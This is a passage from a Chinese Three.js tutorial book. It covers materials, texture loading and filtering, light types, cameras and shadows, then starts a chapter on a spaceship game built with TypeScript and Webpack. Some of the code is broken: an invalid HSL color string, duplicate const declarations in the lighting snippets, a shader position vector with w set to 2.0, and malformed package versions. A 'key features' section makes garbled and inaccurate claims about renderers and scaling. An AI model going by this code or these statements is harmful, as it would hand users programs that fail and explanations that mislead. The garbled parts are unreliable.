const m5 = new THREE.MeshBasicMaterial({color: 'hsl(0,27.1,0.00,1.00,60) '}); // 绿色
```

让我们来看看 Three.js 提供的内容。

**MeshBasicMaterial** 不受光照影响。**MeshLambertMaterial** 只在顶点处计算光照，**而 MeshPhongMaterial** 在每个像素处计算光照。<sup>12</sup> MeshPhongMaterial 也支持镜面高光。

镜面高光的光泽度由 MeshPhongMaterial 的 shininess 设置决定。默认值是 30。在 MeshLambertMaterial 或 MeshPhongMaterial 上将颜色设置为黑色（并将 phong 的 shininess 设置为 0），并将 emissive 属性设置为某种颜色，看起来完全就像 MeshBasicMaterial 一样。

**MeshToonMaterial** 与 MeshPhongMaterial 非常相似，但有一个主要区别。它不是平滑着色，而是使用渐变贴图（一个 X×1 的纹理）来决定如何着色。默认的渐变贴图是前 70% 亮度为 70%，之后为 100% 亮度，但你可以提供自己的渐变贴图。

关于材质还有很多需要了解的内容，我们还有很长的路要走。


## 纹理 (TEXTURES)

在 Three.js 中，纹理是一个庞大的话题，我不确定应该在哪个层面来描述它们，但我会尝试一下。这里涉及的问题非常多，且很多问题相互关联，因此很难一次性全部解释清楚。

### Hello Texture

这些纹理通常是用第三方软件（如 Photoshop 或 GIMP）制作的图片。让我们以这张图片为例。我们将修改之前的其中一个示例。我们只需要创建一个 `TextureLoader`。无需指定材质的颜色，而是调用其 `load`load` 方法并传入图片的 URL，然后将材质的 `map` 属性设置为该结果。

```js
const loader = new THREE.TextureLoader();
const material = new THREE.MeshBasicMaterial({
    color: 0xFF8844,
    map: loader.load('resources/images/wall.jpg'),
});
```

### 简化纹理加载

本网站大部分代码中使用了最简单的纹理加载技术。随后，我们调用 `TextureLoader` 的 `load` 方法，它会返回一个纹理对象。至关重要的一点是，当我们使用这种方法时，在 Three.js 异步加载图片之前，纹理将是半透明的，直到图片下载完成，纹理才会用下载的图像进行更新。这样做最大的好处是无需等待纹理加载即可让页面立即渲染。在大多数情况下这可能是没问题的，但如果我们愿意，也可以要求 Three.js 在纹理下载完成后通知我们。

```js
const texture = loader.load('resources/Folder name/File name');
```

### 纹理正在加载中

若要等待纹理加载，请使用纹理加载器的 `load` 方法，它接受一个回调函数，该函数将在纹理加载完成后被调用。回到之前的示例，我们可以在纹理加载完成后创建 `Mesh` 并将其添加到场景中。

```js
const loader = new THREE.TextureLoader();
loader.load('resources/Folder/File name', (texture) => {
    const material = new THREE.MeshBasicMaterial({
        map: texture,
    });
    const cube = new THREE.Mesh(geometry, material);
    scene.add(cube);
    cubes.push(cube);  // 添加到我们的旋转立方体列表中
});
```

若要等待纹理加载，请使用纹理加载器的 `load` 方法，它接受一个回调函数，该函数将在纹理加载完成后被调用。

### 加载来自其他来源的纹理

来自其他服务器的图像必须发送必要的请求头才能被使用。如果未发送，当你在 Three.js 中尝试使用这些图像时，将会收到一个错误。如果你是服务器的运行者，请确保发送照片的服务器发送了正确的请求头。如果你无法控制托管图像的服务器，且它没有传输权限请求头，你将无法使用它们。例如，Imgur、Flickr 和 GitHub 都会发送允许你在 Three.js 中使用其服务器托管照片的请求头，而大多数其他网站则不会。

## 内存利用 (MEMORY UTILIZATION)

纹理通常是 Three.js 应用中内存占用最高的部分。必须记住，纹理通常消耗 `宽度 × 高度 × 4 × 1.33` 字节的内存。

## PNG 与 JPG 之争

JPG 采用有损压缩，而 PNG 采用无损压缩；因此，PNG 的下载速度通常较慢。然而，PNG 支持透明度。对于非图像数据（如稍后讨论的法线贴图和其他非图像贴图），PNG 可能是最佳格式。在 WebGL 中，请记住 JPG 并不比 PNG 占用更少的内存。

你可以选择当纹理绘制尺寸大于其原始尺寸时发生什么，以及当绘制尺寸小于其原始尺寸时发生什么。当纹理渲染尺寸大于原始尺寸时，使用 `texture.magFilter` 来设置过滤器。

`THREE.magFilter` 属性被设置为以下值之一：

- `THREE.NearestFilter` — 从原始纹理中选取最接近的单个像素。对于低质量纹理，你会得到类似于《我的世界》(Minecraft) 的像素化效果。
- `THREE.LinearFilter` — 从纹理中选择 4 个最接近应取色位置的像素，并根据实际点与这 4 个像素的距离按比例进行混合。

对于设置纹理绘制尺寸小于原始尺寸时的过滤器，你可以将 `texture.minFilter` 属性设置为 6 个值之一：

- `THREE.NearestFilter` — 同上，选择纹理中最接近的像素。
- `THREE.LinearFilter` — 同上，选择纹理中的 4 个像素并进行混合。
- `THREE.NearestMipmapNearestFilter` — 选择合适的 mipmap，然后选择一个像素。
- `THREE.NearestMipmapLinearFilter` — 选择 2 个 mipmap，每个选择一个像素，然后将这两个像素混合。
- `THREE.LinearMipmapNearestFilter` — 选择合适的 mipmap，然后选择 4 个像素并进行混合。
- `THREE.LinearMipmapLinearFilter` — 选择 2 个 mipmap，每个选择 4 个像素，然后将所有 8 个像素混合成 1 个像素。

左上和左中使用了 `NearestFilter` 和 `LinearFilter`，它们不使用 mipmap。因为 GPU 是从原始纹理中选择像素，所以它们在远处会闪烁。左侧仅选择一个像素，中间选择四个像素并混合，但这不足以产生一个具有代表性的颜色。其他四条带状区域（其中 `LinearMipmapLinearFilter` 效果最好）在右下角表现得更好。

## 纹理重复、偏移、旋转和包裹 (TEXTURE REPETITION, OFFSET, ROTATION, AND WRAPPING)

重复、偏移和旋转纹理都是纹理的选项。默认情况下，纹理不会重复。有两个属性控制纹理是否重复：**wrapS** 用于水平包裹，**wrapT** 用于垂直包裹。它们可以设置为以下值之一：

- `THREE.ClampToEdgeWrapping` — 每个边缘的最后一个像素被无限重复。
- `THREE.RepeatWrapping` — 纹理循环出现。
- `THREE.MirroredRepeatWrapping` — 纹理重复并镜像。

例如，要在两个方向上启用包裹：

```js
someTexture.wrapS = THREE.RepeatWrapping;
someTexture.wrapT = THREE.RepeatWrapping;
```

`repeat` 属性控制重复的次数。

```js
const timesToRepeatHorizontally = 6;
const timesToRepeatVertically = 4;

someTexture.repeat.set(timesToRepeatHorizontally, timesToRepeatVertically);
```

设置 `offset` 属性可用于偏移纹理。纹理偏移使用单位计算，一个单位等于一个纹理尺寸。换句话说，0 表示没有偏移，1 表示完整的纹理偏移。

```js
const xOffset = .75;   // 偏移 3/4 个纹理
const yOffset = .50;   // 偏移 1/2 个纹理
someTexture.offset.set(xOffset, yOffset);
```

可以使用弧度单位的 `rotation` 属性以及用于选择旋转中心的 `center` 属性来旋转纹理。默认情况下，它从左下角 (0,0) 开始旋转。因为这些单位是以纹理尺寸为准的，所以将其设置为 0.5 将围绕纹理中心旋转。

```js
someTexture.center.set(0.5, 0.5);
someTexture.rotation = THREE.MathUtils.degToRad(50);
```

同样地，我们可以使用不同的纹理创建许多其他材质。

## 光照 (Lights)

让我们看看三种不同类型的光照及其使用方法。首先，通过之前的示例更新摄像机。视野 (FOV) 将为 50°，远裁剪面为 150 个单位，摄像机将从原点向上移动 15 个单位，向后移动 25 个单位。

```js
const fov = 50;
const aspect = 2;   // 画布默认值
const near = 0.1;
const far = 150;
const camera = new THREE.PerspectiveCamera(fov,
    aspect, near, far);
camera.position.set(0, 15, 25);
```

之后，我们将添加 `OrbitControls`。用户可以使用 `OrbitControls` 旋转摄像机或围绕一个点运行。由于 `OrbitControls` 是 Three.js 的可选功能，我们必须首先将其添加到网站中。

```js
import * as THREE from '/build/three.module.js';
import {OrbitControls} from '/examples/jsm/controls/OrbitControls.js';
```

然后我们可以将其投入使用。我们向 `OrbitControls` 提供一个要控制的摄像机和一个用于收集输入事件的 DOM 元素。

```js
const controls = new OrbitControls(camera, canvas);
controls.target.set(0, 8, 0);
controls.update();
```

我们还在调用控件之前将目标配置为在原点上方 8 个单位处旋转。更改控件以使其利用这个新目标。

### 环境光 (AmbientLight)

让我们从创建一个 `AmbientLight` 开始。

```js
const color = 0x000000;
const intensity = 1;
const light = new THREE.AmbientLight(color,
    intensity);
scene.add(light);
```

`AmbientLight` 简单地将材质的颜色乘以光照颜色再乘以强度。

```
color = materialColor * light.color * light.intensity;
```

这种类型的环境光作为光照效果并不特别出色，因为它非常均匀，除了改变图像中所有事物的颜色外，看起来不像真正的光照。


### HemisphereLight（半球光）

在代码中切换到 `HemisphereLight`。`HemisphereLight 接收一个天空颜色和一个地面颜色，并简单地在两者之间对材质颜色进行乘法运算——如果对象的表面朝上，则使用天空颜色；如果对象的表面朝下，则使用地面颜色。

以下是新代码：

```javascript
const color = 0xFFFFFF;
const skyColor = 0xB1E1FF; // light blue
const groundColor = 0xB97A20; // brownish orange
const intensity = 1;
const light = new THREE.AmbientLight(color, intensity);
const light = new THREE.HemisphereLight(skyColor, groundColor, intensity);
scene.add(light);
```

### DirectionalLight（平行光/方向光）

在代码中切换到 `DirectionalLight`。太阳通常用 `DirectionalLight` 来表示。

```javascript
const color = 0xFFFFFF;
const intensity = 1;
const light = new THREE.DirectionalLight(color, intensity);
light.position.set(0, 10, 0);
light.target.position.set(-5, 0, 0);
scene.add(light);
scene.add(light.target);
```

灯光和 `light.target` 都必须添加到场景中。Three.js 的 `DirectionalLight` 向目标方向照射。

Three.js 包含许多辅助对象，我们可以使用它们来可视化场景中隐藏的区域。在这种情况下，我们将使用 `DirectionalLightHelper` 来绘制一个代表光线的平面以及一条从光线到目标的直线。我们只需向其传递灯光并将其放置在场景中即可。

```javascript
const helper = new THREE.DirectionalLightHelper(light);
scene.add(helper);
```

### PointLight（点光源）

`PointLight` 是一种位于单个点并向所有方向辐射光线的灯光。让我们修改代码。

```javascript
const helper = new THREE.DirectionalLightHelper(light);
const helper = new THREE.PointLightHelper(light);
scene.add(helper);
```

### SpotLights（聚光灯）

它们本质上是一个带有圆锥体的点光源，光线仅在圆锥内部照射。总共有两个圆锥：外圆锥和内圆锥。光线在内圆锥和外圆锥之间从全强度递减到零。与方向光一样，使用 `SpotLight` 需要一个目标（target）。光锥将向目标方向展开。

### RectAreaLight（矩形区域光）

另一种灯光是 `RectAreaLight`，顾名思义：它是一个矩形光照区域，例如长荧光灯或天花板上的磨砂天窗。因为 `RectAreaLight` 仅适用于 `MeshStandardMaterial` 和 `MeshPhysicalMaterial`，所以我们将所有材质切换为 `MeshStandardMaterial`。

我们将包含 `RectAreaLightHelper` 来帮助我们可视化灯光，以及一些额外的 Three.js 可选数据来使用 `RectAreaLight`。

```javascript
import * as THREE from '/build/three.module.js';
import {RectAreaLightUniformsLib} from '/examples/jsm/lights/RectAreaLightUniformsLib.js';
import {RectAreaLightHelper} from '/examples/jsm/helpers/RectAreaLightHelper.js';
```

至关重要的一点是，添加到场景中的每盏灯都会降低 Three.js 渲染场景的速度，因此请尽可能少地使用灯光以实现您的目标。

## CAMERAS（相机）

在 Three.js 中，让我们讨论一下相机。`PerspectiveCamera`（透视相机）是 Three.js 中最常用的相机，也是我们一直以来一直在使用的相机。它创建了一个三维透视效果，其中远处的物体看起来比近处的物体小。

`PerspectiveCamera` 定义了一个视锥体（frustum）。视锥体是一个被切掉顶端的实心金字塔。立方体、圆锥体、球体、圆柱体和视锥体都是不同类型的几何体的名称。

相机的视锥体由四个属性定义：
- `near` 定义了视锥体前端的距离。
- `far` 定义了它结束的地方（远端距离）。
- 视野（field of view）或 `fov` 通过计算在距离相机 `near` 单位处提供所需视野的正确高度，来确定视锥体前后端的高度。
- `aspect`（宽高比）决定了视锥体前端和后端的宽度。宽高比乘以高度等于视锥体的宽度。

## Shadows（阴影）

在计算机中，阴影是一个困难的主题。有多种可用选项，包括 Three.js 的解决方案，但所有这些都涉及权衡。Three.js 默认使用阴影贴图（Shadow maps）。阴影贴图的工作原理是：对于每盏投射阴影的灯光，从该灯光的视角渲染所有被识别为投射阴影的物体。

使用位置 GUI 选项移动灯光，观察阴影落在所有墙壁上的情况。您还可以更改 `near` 和 `far` 设置，以查看阴影如何根据物体的远近而变化。当物体比 `near` 更近时，它不再接收阴影；当它比 `far` 更远时，它将一直处于阴影中。

## BufferGeometry Custom（自定义缓冲几何体）

Three.js 使用 `BufferGeometry` 来表示所有几何体。`BufferGeometry` 不过是一组 `BufferAttributes` 的集合。每个 `BufferAttribute` 都是某种特定类型数据的数组：位置、法线、颜色、UV 等。当结合使用时，`BufferAttributes` 代表了每个顶点的所有数据的并行数组。

还有其他功能（如雾效和渲染目标）可以探索，以使任何网页看起来更具吸引力和美观。

## Three.js 的关键特性

Three.js 是一个跨浏览器的 JavaScript 库/API，用于为 Web 浏览器显示创建和动画化 3D 计算机图形。它允许您的浏览器渲染流畅的 3D 动画，并且因为它是跨浏览器的，因此在 Web 上的多维对象方面为您提供了很大的灵活性。

### 效果（Effects）

除了红蓝 3D（anaglyph）、立体视觉和视差，Three.js 中有一个名为 “ShaderSkin” 的过滤器，可以使用或修改我自己的着色器。您可以修改面部肤色使其看起来更真实。

### 场景（Scenes）

它允许您指定 Three.js 应该渲染什么以及在何处渲染。这就是您放置灯光和相机的地方：运行时对象的添加和删除；雾效。向整个场景添加视觉效果或过滤器被称为后处理（postprocessing）。这可以改变场景的氛围并模拟酷炫的视觉效果。

### 动画（Animation）

您可以使用 Three.js 动画引擎为模型的许多方面制作动画。骨架（Armatures）、前向动力学（forward kinematics）、逆向动力学（inverse kinematics）、变形（morph）和关键帧（keyframe）都是动力学的例子。

### 网格创建（Mesh Creation）

网格（Mesh）是指构成 3D 物体形状的骨架。面（Faces）、边（edges）和顶点（vertices）是构成多边形模型网格的三个元素。原语（Primitives）是相对简单的几何网格，如球体、平面、立方体和圆柱体。API 设计、Canvas 渲染器和 SVGRenderer 是三种可用于给网格提供轮廓效果的设计。

### 缩放（Scaling）

固定对象也可以被测量。为了计算流逝的时间，我们需要一个名为 `t` 的辅助变量。它应该出现在 `render()` 方法之前。当您缩放相机或缩放对象时，您绘制的像素会发生变化。

### 渲染（Render）

如果您要执行循环，`requestAnimationFrame` 是最佳选择。它是浏览器中处理动画最有效的方法。任何需要多次传递（如模糊）的着色器都将在您指定的纹理中渲染。

## 在 Three.js 中，您可以跟踪渲染性能

它从 Three.js 渲染器收集数据并实时显示，以监控 WebGL 渲染速度。在开发过程中识别显示问题非常有益。它在 GitHub 上可用，并采用 MIT 许可证。因此，`threex.rendererstats` 保持在 Three.js 层级，为您提供额外的渲染器统计信息。

## Materials（材质）

材质决定了物体的外观。着色器（Shaders）与渲染器有所不同；它们是用 GLSL（OpenGL 着色语言）编写的，告诉 GPU 物体具体看起来如何。Three.js 会使光照和反射看起来极其复杂。您不需要在 JS 中完成所有这些工作；您可以使用一组相当灵活的函数来构建着色器。

## 常见对象的属性

材质和几何体是相同的，并且具有自己的属性。这些特性允许您操纵网格和材质的主要细节。

## 基础知识回顾

Web 的复杂性在不断演进，与此同时，它的触及范围也在扩大，特别是 3D 渲染。扁平化设计很棒，但 3D 功能将网页设计提升到了新的高度。具有动态 3D 视觉效果和交互式 3D 场景的网站比以往任何时候都更受欢迎。客户现在期望在他们的网站上看到这类设计，并会向您要求。学习将 3D 设计融入您的网页设计项目将有助于您在事业上取得进步并获得更多客户。

开始使用 Three.js 需要一些编程经验，尤其是 HTML、CSS 和 JavaScript。

Three.js 是一个 JavaScript 3D 工具包，包含用于 canvas、svg、CSS3D 和 WebGL 的渲染器。它不需要插件即可在浏览器中显示 3D 设计。利用该库，可以实现简单的 3D 碎片、复杂的 3D 交互和富有想象力的动画游戏。它是一个开源库，在 GitHub 上有仓库供用户发布他们的 Three.js 项目。WebGL 是 Three.js 涵盖的渲染器中最广泛使用的。仅用 WebGL 创建 3D 项目需要大量的代码行数和良好的数学基础。Three.js 使得

使用WebGL创建场景并进行渲染变得容易得多。要使用Three.js制作3D动画，你必须首先理解3D场景是如何构建的。以下是创建3D场景所需的三个要素：场景、摄像机和渲染器。

场景包含了Three.js将要显示的所有3D物体。它看起来就像一个剧院舞台或电视机。摄像机代表了场景的视角，或者说是人类观察场景上物体的方式。渲染器将所有元素组合在一起并绘制场景。如果你熟悉3D动画，你会认出这是设置场景的传统方式。

场景设置好后，就在其中放置物体。物体的创建分为三个步骤：

- 几何体（形状的骨架或基本轮廓）
- 材质（为几何体添加颜色或纹理）
- 网格（几何体与材质的结合）

Three.js库中已经提供了许多基本的几何体。你无需从头开始构建它们。你只需要从库中调用这些几何体，然后进行个性化设置即可。除了使用十六进制代码作为材质颜色外，你还可以使用照片创建纹理，或从纹理库中查找纹理。

在场景设置完成并引入几何体之后，你会添加函数来照亮场景、对物体进行动画处理等。除了Three.js库提供的基本物体外，你还可以从在线库上传额外的3D图像，或者上传你用Blender制作的图像。

最简单的Three.js应用的实时代码示例可以在GitHub上的Three.js网站找到。他们使用的是JSFiddle，但在CodePen和Codesandbox.io上也能看到。

## 总结

Three.js是一个将3D物体融入网页的实用工具。在本章中，我们探讨了Three.js工作的基本原理。这个API有太多需要学习的内容，你必须深入钻研和实践。其可能性确实是无限的。从一个基本的旋转立方体，到一个设定在丰富数字宇宙中的复杂交互式游戏，总有一款适合你。你可以像使用canvas一样使用Three.js，包括全屏动画。当我们需要快速构建多维项目时，Three.js开箱即用（无需任何3D先验知识）所提供的可能性至关重要。除了让你为项目添加流畅的动画外，Three.js还允许你为Web应用程序制作重要的手动动画。它使用场景图来定义一个可以放置几何体、灯光、摄像机和其他物体的区域。Three.js的滤镜渲染和动画功能可以在地图、远程学习、虚拟参观、房地产、博物馆等领域发挥作用。

## 注意事项

1.  响应式设计——Three.js手册。
2.  响应式设计——Three.js手册。
3.  响应式设计——Three.js手册。
4.  渲染设计——Three.js手册。
5.  响应式设计——Three.js手册。
6.  *This-mdn web docs*。
7.  设置——Three.js手册。
8.  [模块 - eloquentjavascript.net](http://eloquentjavascript.net)。
9.  场景图——Three.js手册。
10. Three.js – 太阳系 - Davis, B., Observables。
11. 场景图——Three.js手册。

## 第2章

## 应用开发 I

**本章内容**

- 使用Three.js制作游戏
- 基础与模块

在第一章中，我们学习了Three.js的基本概念及其功能、优点和缺点。本章还简要介绍了Three.js中使用的基础知识。现在，我们已经了解了Three.js的功能；因此，本章将重点讲解如何使用Three.js进行应用开发。那么，话不多说，让我们直接进入我们的第一个Three.js项目。

仅仅几年前，构建和发布视频游戏的唯一选择是选择一个游戏引擎，比如Unity或Unreal，学习相关语言，然后将游戏打包并发布到你选择的平台上。尝试通过浏览器向某人提供一个游戏似乎是不可行的。令人惊讶的是，随着浏览器技术的进步，例如硬件加速在所有主流浏览器中的普及，JavaScript性能的改变，可用处理能力的持续增长，为浏览器创建交互式游戏体验正变得越来越普遍。

## 使用Three.js构建应用

在GitHub的项目描述中，Three.js被描述为一个“易于使用、轻量级、跨浏览器的通用3D工具包”。

Three.js使我们开发者在屏幕上绘制3D物体和模型变得相当简单。没有它，我们将不得不直接与WebGL打交道，这虽然不算太难，但可能会让即使是简单的游戏开发项目也耗时很长。一个传统的“游戏引擎”由多个组件构成。例如，Unity和Unreal不仅提供了将物体渲染到屏幕的机制，还提供了许多其他功能，如网络和物理。

另一方面，Three.js的方法更为专注，它排除了物理和网络等功能。然而，正因为其简洁性，它更容易学习，并且对于其最擅长的功能——将物体绘制到屏幕上——效率更高。

它还包含了大量的示例，可用于学习如何将各种物体绘制到屏幕。最后，它允许我们以简单且原生的方式将我们的模型加载到场景中。

如果你不希望用户从应用商店下载应用或安装任何东西来玩你的游戏，Three.js可能是一个很好的解决方案。如果你的游戏是基于浏览器的，你就拥有了最低的进入门槛，这只会是一件好事。

## 使用Three.js设计游戏

在本节中，我们将通过创建一个融合了着色器、模型、动画和游戏逻辑的游戏来探索Three.js。这个想法非常简单。我们驾驶一艘飞船在一个星球上飞行，我们的任务是收集能量水晶。我们还必须通过收集护盾增强器来保护飞船的健康，并避免场景中岩石造成过多伤害。

在我们旅程的最后，飞船返回天空中的母舰，如果玩家选择“下一关”，他们将获得额外的机会，这次飞船需要飞过更长的路径。

随着用户在游戏中的推进，飞船的速度会增加，迫使他们更加努力地躲避岩石并获取能量水晶。要制作这样的游戏，我们首先必须回答以下问题：

- 我们如何能让一艘飞船在无限的区域内向前飞行？
- 我们如何判断飞船是否与其他物体碰撞？
- 我们如何创建一个同时适用于桌面和移动设备的用户界面？

等我们完成这个游戏时，这些障碍都将被我们克服。

## 代码教程

然而，在我们开始编码之前，我们必须先复习一些基本理论，特别是关于如何在游戏中创造运动感。

### 创造运动感

想象一下你在现实中指挥一架直升机，正在追逐地面上的一个物体。这个物体以逐渐增加的速度移动。为了跟上，你也必须逐渐增加你所乘坐直升机的速度。

> 如果直升机或地面上的物体没有速度限制，只要你愿意，这种追逐可以无限持续下去。

在创建跟随物体的游戏中，我们很自然地想应用同样的标准，就像本例中一样，即随着物体在世界空间中加速，更新跟随其后的摄像机的速度。然而，这带来了一个直接的问题。基本上，每个玩这个游戏的人都会在他们的手机或电脑上玩。这些都是资源有限的设备。如果我们试图在摄像机移动时生成无限数量的物体，然后移动摄像机，最终我们将耗尽所有可用资源，导致浏览器标签页无响应或崩溃。

我们还必须创建一个代表海洋的平面（一个平坦的2D物体）。当我们这样做时，我们必须包含海洋的尺寸。然而，我们无法创建一个无限大的平面，也无法创建一个巨大的平面并期望用户永远走不到需要超出平面的地方。这是糟糕的设计，而且期望人们不会玩我们的游戏到足以遇到问题，这似乎有悖直觉。

### 在有限约束内的无限运动

我们保持摄像机不动，而是让周围的环境围绕它移动，而不是让它在一个方向上无限移动。这有几个好处。一个好处是我们始终知道我们的飞船

是因为它的位置不随时间变化；它只做左右移动。这使我们能够快速判断物体是否在摄像机之后，并将其剔除以节省资源。

另一个优势是，我们可以在任意距离处生成物体。这意味着当物体靠近玩家时，其他物品或物体会出现在远处，超出玩家的视野。

当这些物品从视野中消失时——无论是玩家与之碰撞，还是它们移动到了玩家身后——它们就会从场景中被移除。

要实现这种效果，我们需要做两件事：要将物体移向摄像机，我们首先必须沿深度轴程序化地移动每个物品。其次，我们必须为水面赋予一个偏移值，并且需要随时间不断增加这个值。

水面因此会显得移动得越来越快。

既然我们已经了解了如何推动飞船在场景中前进，接下来就让我们着手搭建项目。

## 配置游戏项目

让我们开始这个游戏吧！第一步是配置我们的开发环境。在本示例中，我们选择了 TypeScript 和 Webpack。由于本章并非讨论这些技术的优势，我们不会深入展开，只会做简要概述。

当我们使用 Webpack 构建项目并保存文件时，它会检测到文件已更改，并使用保存的修改重新加载我们的浏览器。

这让你能够专注于开发，因为减少了每次修改后手动刷新浏览器的需要。我们可以在启动项目时使用诸如 three-minifier 之类的插件来减小打包文件的体积。在部署打包文件时，我们同样可以使用类似 three-minifier 的插件来压缩其大小。

在这种情况下，使用 TypeScript 可以确保我们的项目具有类型安全。在处理 Three.js 的某些内部类型（如 Vector3 和 Quaternion）时，我们会发现这非常有优势。能够确认我们为变量赋值的是正确的类型，这一点极为方便。

对于 UI，我们还将使用 Materialize CSS。这个框架将很方便地用于构建我们用户界面中的少量按钮和卡片。

第一步，我们需要创建一个新文件夹来开始项目工作。文件夹创建完成后，接下来需要在该文件夹中创建 package.json 文件，并粘贴以下内容：

```json
{
  "dependencies": {
    "materialize-css": "2.0.0",
    "nipplejs": "0.7.0",
    "three": "0.137.2.0"
  },
  "devDependencies": {
    "@types/three": "0.137.2.0",
    "@yushijinhun/three-minifier-webpack": "0.3.1",
    "clean-webpack-plugin": "4.0",
    "copy-webpack-plugin": "11.0.0",
    "html-webpack-plugin": "5.5.0",
    "raw-loader": "4.0.2",
    "ts-loader": "9.3.0",
    "typescript": "4.6.4",
    "webpack": "5.72.0",
    "webpack-cli": "4.9.2",
    "webpack-dev-server": "4.9.0",
    "webpack-glsl-loader": "git+https://github.com/grieve/webpack-glsl-loader.git",
    "webpack-merge": "5.8.0"
  },
  "scripts": {
    "dev": "webpack serve --config ./webpack.dev.js",
    "build": "webpack --config ./webpack.production.js"
  }
}
```

然后在命令行窗口中输入 `npm i` 将包安装到你的新项目中。

## 添加 Webpack 文件

我们现在需要为项目创建三个文件：一个基础 Webpack 配置文件、一个开发环境配置文件和一个生产环境配置文件。

在你的项目文件夹中，创建一个 webpack.common.js 文件并粘贴以下配置：

```javascript
const HtmlWebpackPlugin = require("html-webpack-plugin");
const CopyPlugin = require("copy-webpack-plugin");
module.exports = {
    plugins: [
        // Build an index.html file that contains the
        // appropriate package identifier and links to our
        // scripting.
        new HtmlWebpackPlugin({
            template:'html/index.html'
        }),
        // Copy gameplay components to the webpack results
        // from our fixed folder.
        new CopyPlugin({
            patterns: [
                {from: 'static', to: 'statics'}
            ]
        }),
    ],
    // Our game's starting point
    entry: './Spacegame.ts',
    module: {
        rules: [
            {
                // Insert our GLSL shaders as html.
                test: /.(glsl|vs|fs|vert|frag)$/, exclude: /node_modules/, use: ['raw-loader']
            },
            {
                // Analyze our typescript and transport it to
                // Javascript with this-loader.
                test: /.tsx?$/,
                use: 'ts-loader',
                exclude: /node_modules/,
            }
        ],
    },
    resolve: {
        extensions: ['.tsx', '.ts', '.js'],
    },
}
```

创建一个 webpack.dev.js 文件并添加以下内容。Webpack 开发服务器的热重载功能配置如下：

```javascript
const { merge } = require('webpack-merge')
const common = require('./webpack.common.js')
const path = require('path');
module.exports = merge(common, {
  mode: 'development', // The source should not be minified.
  devtool: 'eval-source-map', // For easy development, use the source map.
  devServer: {
    static: {
      directory: path.join(__dirname, './dist'),
      // From this location, static files are served.
    },
    hot: true, // Whenever the code changes, refresh site.
  },
})
```

最后，创建一个 webpack.production.js 文件，内容如下：

```javascript
const { merge } = require('webpack-merge')
const common = require('./webpack.common.js')
const path = require('path');
const ThreeMinifierPlugin = require("@yushijinhun/three-minifier-webpack");
const {CleanWebpackPlugin} = require("clean-webpack-plugin");
const threeMinifier = new ThreeMinifierPlugin();
module.exports = merge(common, {
  plugins: [
    threeMinifier, // Minifies our three.js code
    new CleanWebpackPlugin() // Between builds, it cleans up our 'dist' folder.
  ],
  resolve: {
    plugins: [
        threeMinifier.resolver,
    ]
  },
  mode: 'production', // Reduce the size of our output
  output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].[contenthash:8].js', // Our product would contain a one-of-a-kind hashing, forcing our users to download updates as soon when they become accessible.
    sourceMapFilename: '[name].[contenthash:10].map',
    chunkFilename: '[id].[contenthash:10].js'
  },
  optimization: {
    splitChunks: {
        chunks: 'all',
        // divide our code into smaller parts to assist caching for our clients
    },
  },
})
```

## TypeScript 环境配置

接下来的一步是设置我们的 TypeScript 环境，以便我们能够从 JavaScript 文件中使用导入。创建一个 tsconfig.json 文件并填写以下内容：

```json
{
  "compilerOptions": {
    "moduleResolution": "node",
    "strict": true,
    "allowJs": true,
    "checkJs": false,
    "target": "es2017",
    "module": "commonjs"
  },
  "include": ["src/**/*.ts"]
}
```

我们的开发环境已完全配置好。现在是时候开始为玩家打造一个美丽而逼真的可探索环境了。

## 确定游戏的基调

我们的场景由以下元素组成：

- 实际的场景
- 背景物体（玩家游戏区域两侧的岩石）
- 天空水面
- 飞船
- "挑战行"——即放置水晶、岩石和护盾物品的行

我们将在名为 `Spacegame.ts` 的文件中完成大部分工作，但同时也会将游戏的各个部分拆分到不同文件中，以免最终产生一个巨大的文件。现在就来创建 `Spacegame.ts` 文件吧。

### 搭建舞台

第一步是建立一个场景，让 Three.js 能够渲染内容。我们将在 `Spacegame.ts` 中添加以下代码来创建场景，并在场景中设置一个 PerspectiveCamera，以便我们观察正在发生的事情。最后，我们将为渲染器创建一个引用，稍后会为其赋值。

```typescript
export const scene = new Scene()
export const camera = new PerspectiveCamera(70, window.innerWidth / window.innerHeight, 0.5, 9000)
// Our three renderer
let renderer: WebGLRenderer;
```

对于我们的场景，我们还需要使用渲染和动画循环。动画循环将用于根据需要在屏幕上移动物体，渲染循环则用于向屏幕绘制新帧。

现在让我们在当前的 `Spacegame.ts` 中编写 `render` 函数。由于该函数只是请求一个动画帧然后生成场景，它一开始看起来会是空的。我们需要动画帧的原因有很多，但最重要的原因之一是：如果用户切换标签页，我们的游戏将暂停，这样可以提高性能，同时避免浪费设备资源。

```javascript
// 可在此处查看
const animate = () => {
    requestAnimationFrame(animate);
    renderer.render(scene, camera);
};
```

目前我们拥有一个仅包含摄像机但无其他对象的空白场景。让我们通过添加元素（例如水体）来使场景更加逼真。幸运的是，Three.js 提供了可直接使用的水体对象示例。它具有实时反射效果且颇具吸引力；你可以在此查看。¹

对我们而言，这个水体将能满足场景的大部分需求。剩下的只需微调水体着色器，以便在渲染循环内对其进行更新。我们这样做是因为：若随时间推移逐步增加水体粗糙度的偏移量，便能营造出速度感。这是游戏的开场场景，但我们会逐帧增加偏移量来呈现效果——随着偏移量增大，下方海洋的流动速度似乎也在加快（尽管飞船实际处于静止状态）。Three.js GitHub 仓库中包含该水体对象。现在我们要做的就是对渲染循环进行微小调整，使该偏移量可配置，从而能随时间更新它。

首先，我们将从 Three.js 源代码中获取逼真的水体可视化文件（Water.js 示例）。该文件将位于项目的 `objects/water.js` 路径下。

打开 `water.js` 文件时，我们将看到类似以下的代码：

```glsl
mirrorCoord = textureMatrix * mirrorCoord;
vec4 mvPosition = modelViewMatrix * vec4( position, 2.0 );
gl_Position = projectionMatrix * mvPosition;
    #include <beginnormal_vertex>
    #include <defaultnormal_vertex>
    #include <logdepthbuf_vertex>
    #include <fog_vertex>
    #include <shadowmap_vertex>
},',
fragmentShader: /* glsl */'
    uniform sampler2D mirrorSampler;
    uniform float alpha;
    uniform float time;
    uniform float size;
    uniform float distortionScale;
    uniform sampler2D normalSampler;
    uniform vec3 sunColor;
    uniform vec3 sunDirection;
    uniform vec3 eye;
    uniform vec3 waterColor;
    varying vec4 mirrorCoord;
    varying vec4 worldPosition;
```

这些是海洋材质的着色器代码。着色器虽超出本主题范围，但简单来说，它们是游戏传递给用户计算机的绘图指令。这份 JavaScript 文件中也包含了以 GLSL 编写的着色器代码。

这并无不妥；但若将着色器代码单独存放，我们便能借助集成开发环境（IDE）的 GLSL 支持功能（如语法高亮和验证），从而更灵活地自定义 GLSL 代码。

